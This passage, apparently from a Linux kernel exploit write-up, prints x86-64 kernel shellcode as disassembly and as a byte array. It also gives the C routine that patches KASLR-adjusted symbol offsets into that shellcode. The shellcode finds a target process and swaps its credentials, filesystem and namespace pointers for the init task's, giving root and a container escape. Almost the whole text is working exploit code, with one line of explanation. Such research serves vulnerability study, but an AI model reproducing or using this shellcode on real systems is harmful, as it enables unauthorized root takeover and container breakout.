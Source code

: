 ```c
    17: 4d 39 ae 68 07 00 00    cmp    QWORD PTR [r14+0x768],r13
    1e: 74 1a                   je     0x3a
    20: 4d 8b b6 88 04 00 00    mov    r14,QWORD PTR [r14+0x488]
    27: 49 81 ee 88 04 00 00    sub    r14,0x488
    2e: 49 ff c7                inc    r15
    31: 49 81 ff e8 03 00 00    cmp    r15,0x3e8
    38: 7e d3                   jle    0xd
    3a: 48 bb 02 00 fe ca ef    movabs rbx,0xdeadbeefcafe0002 ; init_cred
    41: be ad de
    44: 49 89 9e 50 07 00 00    mov    QWORD PTR [r14+0x750],rbx
    4b: 49 89 9e 58 07 00 00    mov    QWORD PTR [r14+0x758],rbx
    52: 48 bb 05 00 fe ca ef    movabs rbx,0xdeadbeefcafe0005 ; init_fs
    59: be ad de
    5c: 49 89 9e a8 07 00 00    mov    QWORD PTR [r14+0x7a8],rbx
    63: 48 bb 03 00 fe ca ef    movabs rbx,0xdeadbeefcafe0003 ; init_nsproxy
    6a: be ad de
    6d: 49 89 9e c0 07 00 00    mov    QWORD PTR [r14+0x7c0],rbx
    74: bf ff ff ff ff          mov    edi,0xffffffff
    79: 48 b8 04 00 fe ca ef    movabs rax,0xdeadbeefcafe0004 ; msleep
    80: be ad de
    83: ff d0                   call   rax
    85: eb ed                   jmp    0x74
    */
    unsigned char data[135] = {
        0x4d,0x31,0xff,0x49,0xbe,0x0,0x0,0xfe,0xca,0xef,0xbe,0xad,0xde,0x49,0xbd,0x1,
        0x0,0xfe,0xca,0xef,0xbe,0xad,0xde,0x4d,0x39,0xae,0x68,0x7,0x0,0x0,0x74,0x1a,
        0x4d,0x8b,0xb6,0x88,0x4,0x0,0x0,0x49,0x81,0xee,0x88,0x4,0x0,0x0,0x49,0xff,
        0xc7,0x49,0x81,0xff,0xe8,0x3,0x0,0x0,0x7e,0xd3,0x48,0xbb,0x2,0x0,0xfe,0xca,
        0xef,0xbe,0xad,0xde,0x49,0x89,0x9e,0x50,0x7,0x0,0x0,0x49,0x89,0x9e,0x58,0x7,
        0x0,0x0,0x48,0xbb,0x5,0x0,0xfe,0xca,0xef,0xbe,0xad,0xde,0x49,0x89,0x9e,0xa8,
        0x7,0x0,0x0,0x48,0xbb,0x3,0x0,0xfe,0xca,0xef,0xbe,0xad,0xde,0x49,0x89,0x9e,
        0xc0,0x7,0x0,0x0,0xbf,0xff,0xff,0xff,0xff,0x48,0xb8,0x4,0x0,0xfe,0xca,0xef,
        0xbe,0xad,0xde,0xff,0xd0,0xeb,0xed,
    };
    replace(data, sizeof(data), 0xdeadbeefcafe0000, curr_gadget->init_task_offset + kaslr_slide);
    replace(data, sizeof(data), 0xdeadbeefcafe0001, TARGET_COMM);
    replace(data, sizeof(data), 0xdeadbeefcafe0002, curr_gadget->init_cred_offset + kaslr_slide);
    replace(data, sizeof(data), 0xdeadbeefcafe0003, curr_gadget->init_nsproxy_offset + kaslr_slide);
    replace(data, sizeof(data), 0xdeadbeefcafe0004, curr_gadget->msleep_offset + kaslr_slide);
    replace(data, sizeof(data), 0xdeadbeefcafe0005, curr_gadget->init_fs_offset + kaslr_slide);
    memcpy(sc, data, sizeof(data));
```
- [exploit/extra-refined/exploit.c#L284](../exploit/extra-refined/exploit.c#L284)
```c
void replace(unsigned char *data, uint64_t datasz, uintptr_t key, uintptr_t repl)
{
    for (unsigned char *data_end = data + datasz - 8; data < data_end; data++) {
        if (*(uintptr_t*)data == key) {
            *(uintptr_t*)data = repl;
        }
    }
}
```
The code above is for crafting the payload for the kernel shellcode. The kernel image-specific offsets are patched into kernel shellcode by `replace` function.
